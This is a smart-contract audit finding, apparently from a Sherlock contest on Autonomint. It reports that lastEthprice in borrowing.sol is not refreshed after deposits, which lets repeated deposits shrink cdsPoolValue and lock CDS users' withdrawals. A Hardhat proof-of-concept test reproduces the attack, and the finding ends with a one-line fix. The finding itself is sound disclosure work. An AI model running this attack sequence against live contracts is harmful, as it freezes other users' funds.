 Damp Snowy Wallaby

High

# `lastEthprice` of `borrowing.sol` isn't updated after deposit

### Summary

`lastEthprice` of `borrowing.sol` isn't updated after deposit. It's updated only when withdraw.
When we call `depositTokens`, it calculates the net value of the CDSPool using the `lastEthPrice` through the `calculateRatio` function and updates the `cdsPoolValue` in `omniChainData`. However, this value is also updated in `CDS::withdraw` when a user makes a withdrawal. If an attacker decreases the `cdsPoolValue`, it could prevent users from being able to withdraw their funds.

https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L395

```solidity
withdrawResult.omniChainData.cdsPoolValue -= cdsDepositDetails.depositedAmount;
```

### Root Cause

`lastEthprice` of `borrowing.sol` isn't updated after deposit.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. lastEthPrice > current price
2. An attacker can exploit this by making deposits to continuously decrease the `cdsPoolValue` in `omniChainData`.
3. Users of CDS can't withdraw theirs funds.

### Impact

Lock CDS users' fund

### PoC

```js
        it("PoC",async () => {
            const {BorrowingContractB,BorrowingContractA,CDSContractA,CDSContractB,usdtA,usdtB,globalVariablesA, TokenA} = await loadFixture(deployer);
            const timeStamp = await time.latest();

            await usdtA.mint(user2.getAddress(),20000000000)
            await usdtA.mint(user1.getAddress(),50000000000)
            await usdtA.connect(user2).approve(CDSContractA.getAddress(),20000000000);
            await usdtA.connect(user1).approve(CDSContractA.getAddress(),50000000000);

            const options = Options.newOptions().addExecutorLzReceiveOption(400000, 0).toHex().toString()

            let nativeFee = 0
            ;[nativeFee] = await globalVariablesA.quote(1,0, options, false)

            await CDSContractA.connect(user2).deposit(12000_000000,0,false,0,100000, { value: nativeFee.toString()});


            const depositAmount = ethers.parseEther("1");
            
            await BorrowingContractA.connect(user2).depositTokens(
                100000,
                timeStamp,
                [1,
                110000,
                ethVolatility,1,
                depositAmount],
                {value: (depositAmount + BigInt(nativeFee))})

                {
                    const tx = await BorrowingContractA.getDepositDetails(
                        await user2.getAddress(), 1);
                    console.log(tx);
                    //// ethPriceAtDeposit = 1000
                }
            

            await BorrowingContractA.calculateCumulativeRate();
            await TokenA.mint(user2.getAddress(),8000000000);
            await TokenA.connect(user2).approve(await BorrowingContractA.getAddress(),await TokenA.balanceOf(user2.getAddress()));
            const {odosData, odosSignData} = await calculateUpsideToSwap(
                (await treasuryA.getBorrowing(await user2.getAddress(), 1))[1],
                1100_00,
                1e18,
                ZeroAddress,
                await treasuryA.getAddress(),
                await BorrowingContractA.getAddress()
            ) 
            await BorrowingContractA.connect(user2).withDraw(
                await user2.getAddress(), 
                1,
                odosData,
                odosSignData,
                1100_00,
                timeStamp,
                {value: nativeFee});
            //// lastEthPrice of deposit is set as 1100

            {
                const tx = await BorrowingContractA.lastEthprice();
                console.log(tx);
            }




            for (let i = 1; i <= 5; i++) {
                await BorrowingContractA.connect(user2).depositTokens(
                    100_00,
                    timeStamp,
                    [1,
                    1100_00,
                    ethVolatility,1,
                    depositAmount],
                    {value: (depositAmount + BigInt(nativeFee))});
                    {
                        // const tx = await BorrowingContractA.getDepositDetails(
                        //     await user2.getAddress(), i);
                        // console.log(tx);
                        {
                            const tx = await globalVariablesA.getOmniChainData(); // getOmniChainData
                            console.log(tx[2]); //// totalCDSvalue
                        }
                        //// ethPriceAtDeposit = 1000
                    }
            }


            
            const optionsA = Options.newOptions().addExecutorLzReceiveOption(1200000, 0).toHex().toString()
            let nativeFee1 = 0
            ;[nativeFee1] = await globalVariablesA.quote(3,0, optionsA, false);

            
            {
                await CDSContractA.connect(user2).withdraw(1,1000_00,0,1,"0x", { value: nativeFee1}); 
                //// will fail 
                //// due to Error: VM Exception while processing transaction: reverted with panic code 0x11 (Arithmetic operation overflowed outside of an unchecked block)
                const tx = await CDSContractA.getCDSDepositDetails(
                    await user2.getAddress(), 1);
                console.log(tx);
            }



        })
```

### Mitigation

update `lastEthPrice` after deposit.